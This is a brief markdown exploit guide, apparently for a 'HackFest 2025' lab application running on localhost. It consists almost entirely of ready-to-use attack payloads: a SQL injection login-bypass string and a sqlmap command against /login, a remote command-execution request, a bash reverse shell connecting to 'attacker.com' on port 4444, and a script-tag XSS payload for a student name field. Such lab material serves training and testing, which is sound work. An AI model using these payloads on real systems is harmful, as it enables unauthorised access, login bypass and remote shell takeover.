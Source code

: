 # HackFest 2025 Exploit Guide

## SQL Injection
- **Location**: `/login`
- **Payload**: `username=admin' OR '1'='1 --&password=anything`
- **Tool**: `sqlmap -u "http://localhost:8080/login" --data="username=*&password=*"`

## RCE
- **Location**: `/api/exploit/rce`
- **Payload**: `curl "http://localhost:8080/api/exploit/rce?cmd=whoami"`
- **Reverse Shell**: `bash -i >& /dev/tcp/attacker.com/4444 0>&1`

## XSS
- **Location**: Student name field
- **Payload**: `<script>alert('Hacked')</script>`